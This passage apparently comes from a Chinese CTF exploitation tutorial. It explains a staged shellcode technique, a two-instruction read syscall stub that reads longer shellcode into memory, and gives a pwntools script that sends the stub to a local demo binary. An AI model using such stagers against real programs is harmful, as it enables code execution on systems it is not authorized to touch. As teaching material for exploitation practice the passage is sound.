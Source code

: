 ### reread

有时候题目给的字节数实在太少，不足以支持我们来构造一个 execve 的 shell 怎么办？这时候我们可以想到可以写一个 read 的系统调用来向 shellcode 的运行处写入更多数据，从而能够写入足够长度的 shellcode

构造函数 read(0,addr,len)

此时我们需要观察一下在调用 shellcode 前寄存器的情况

以上面的 demo 为例

[![](assets/1708940669-e1a9a349a7e5526ffade3d9da33ef8f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223205731-1af5d9a8-d24b-1.png)

由于刚好此程序在调用 shellcode 前就调用了一个 read，此时的寄存器我们只需要控制 rax 为 read 系统调用号即可

shellcode 如下：

```bash
from pwn import *
context.log_level='debug'
context(os='linux',arch = 'amd64')
io = process('./test')

rea = asm('''
    xor eax,eax 
    syscall
''')
io.sendafter(':\n',rea)
io.interactive()
```
